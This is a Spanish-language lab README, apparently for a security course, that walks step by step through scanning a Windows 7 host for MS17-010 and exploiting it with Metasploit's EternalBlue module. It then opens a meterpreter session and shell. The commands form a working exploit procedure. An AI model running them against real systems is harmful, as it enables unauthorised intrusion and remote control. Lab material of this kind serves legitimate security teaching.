






Explotación de vulnerabilidad utilizando metasploit
===============
Este laboratorio es para fines educativos y su contenido no debe ser utilizado para fines ilícitos  

**Objetivos**
* Experimentar la explotación de una vulnerabilidad 
* Interactuar con la consola de comandos de metasploit. 
* Interactuar con la consola de comandos de meterpreter.  

**Requisitos**
* Máquina objetivo: Windows 7 64bits  
* Equipo Auditor: Kali Linux 

**Utilizar un scanner auxiliar para detercar si el equipo es vulnerable a  MS17-010**
* Desde Kali Linux Inicie una sesión de terminal y escriba los siguientes comandos:
```
msfconsole
```


```
Search ms17_10
```

```
use auxiliary/scanner/smb/smb_ms17_010
``` 
```
set RHOSTS “Dirección IP del host windows 7 64bits”
```
```
run
```

**utilizar un módulo para explotar la vulnerabilidad ms17_010**
```
use exploit/windows/smb/ms17_010_eternalblue ```
```
```
show options
``` 
```
set RHOST “Dirección IP del host windows 7 64bits” 
```
```
exploit 
```

 
**Post Explotación**
```bash
Sysinfo
```

```bash
Getuid
```

```Bash
Shell
```


**Enlace para mayor información**

[Sobre Metasploit Framework] (https://www.metasploit.com/)

[Comandos usados en  Measploit Framework] (https://www.offensive-security.com/
metasploit-unleashed/msfconsole-commands/)

[Fundamentos de meterpreter] (https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/)
